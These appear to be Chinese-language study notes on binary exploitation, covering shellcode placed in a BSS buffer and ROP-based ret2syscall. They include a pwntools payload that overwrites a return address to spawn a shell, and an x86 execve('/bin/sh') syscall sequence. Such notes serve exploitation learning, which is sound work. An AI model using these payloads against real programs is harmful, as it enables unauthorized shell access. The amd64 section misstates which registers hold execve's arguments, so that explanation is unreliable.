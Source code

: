 ## 步骤

- 将shellcode注入全局变量Bss
- 控制程序执行流执行到shellcode

### BSS

```python
from pwn import *

buf2 = 0x804a080
payload = asm(shellcraft.sh()).ljust(112, b'A') #ljust：用A补充字符串长度直到112字节
payload  += p32(buf2)
io.sendline(payload)
io.interactive()
```



# 返回导向编程（ROP）

## ret2syscall

> 条件：ROPgadget能够获取到足够的pop ret

- x86通过int 0x80指令进行系统调用，amd64通过syscall进行系统调用

  > eax传入系统调用号，ebx、ecx、edx传三个参数，int 0x80执行系统调用
  >
  > ```python
  > mov eax, 0xb
  > mov ebx, ["/bin/sh"]
  > mov ecx, 0
  > mov edx, 0
  > int 0x80
  > 
  > => execve("/bin/sh", NULL,NULL)0
  > ```

  > 在AMD64（x86-64）架构中，执行 `execve` 系统调用需要使用以下寄存器和参数：
  >
  > 1. **寄存器使用**：
  >    - `rax`：存放系统调用号。对于 `execve` 系统调用，`rax` 的值应该是 `0x3b`，即59（十进制）。
  >    - `rdi`：存放指向以null结尾的字符串数组的指针，即参数 `char *const argv[]`。这些字符串用于传递给新程序作为其命令行参数。
  >    - `rsi`：存放指向以null结尾的环境字符串数组的指针，即参数 `char *const envp[]`。这些字符串用于传递给新程序作为其环境变量。
  > 2. **参数传递**：
  >    - `rdi`：应该是一个指针，指向一个以null结尾的字符串数组，数组中的每个字符串是新程序的命令行参数。通常这个数组的第一个元素是被执行程序的名称。
  >    - `rsi`：同样是一个指针，指向一个以null结尾的字符串数组，数组中的每个字符串是新程序的环境变量。

![image-20240623105219487](C:/Users/HP/AppData/Roaming/Typora/typora-user-images/image-20240623105219487.png)

- gadget
